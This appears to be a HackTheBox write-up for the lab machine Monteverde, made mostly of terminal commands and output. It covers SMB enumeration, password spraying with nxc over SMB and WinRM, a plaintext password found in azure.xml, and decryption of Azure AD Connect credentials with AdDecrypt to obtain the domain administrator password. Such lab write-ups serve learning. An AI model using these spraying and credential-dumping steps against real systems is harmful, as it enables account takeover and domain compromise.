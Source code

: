 ```yaml
---
title: HackTheBox-Monteverde
date: 2024-12-23 09:41:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [azure, cloud]     # TAG names should always be lowercase
---
```


## SMB-enum

    ➜  Monteverde nxc smb 10.10.10.172
    SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)

    user : user
    ➜  Monteverde nxc smb 10.10.10.172 -u users.txt -p users.txt --no-bruteforce

    SMB        10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs

    ➜  Monteverde cat azure.xml 
    ��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
    <Obj RefId="0">
        <TN RefId="0">
        <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
        <T>System.Object</T>
        </TN>
        <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
        <Props>
        <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
        <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
        <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
        <S N="Password">4n0therD4y@n0th3r$</S>
        </Props>
    </Obj> 
    </Objs># 

## pasword-spray

    ➜  Monteverde nxc winrm 10.10.10.172 -u users.txt -p '4n0therD4y@n0th3r$'            
    WINRM       10.10.10.172    5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
    WINRM       10.10.10.172    5985   MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$
    WINRM       10.10.10.172    5985   MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$
    WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)

## Azure-Part

    *Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Documents\AdDecrypt.exe -FullSQL

    ======================
    AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
    Based on original code from: https://github.com/fox-it/adconnectdump
    ======================

    Opening database connection...
    Executing SQL commands...
    Closing database connection...
    Decrypting XML...
    Parsing XML...
    Finished!

    DECRYPTED CREDENTIALS:
    Username: administrator
    Password: d0m@in4dminyeah!
    Domain: MEGABANK.LOCAL

Video walkthrough
[WATCH!](https://youtu.be/H33UoqCnJb0)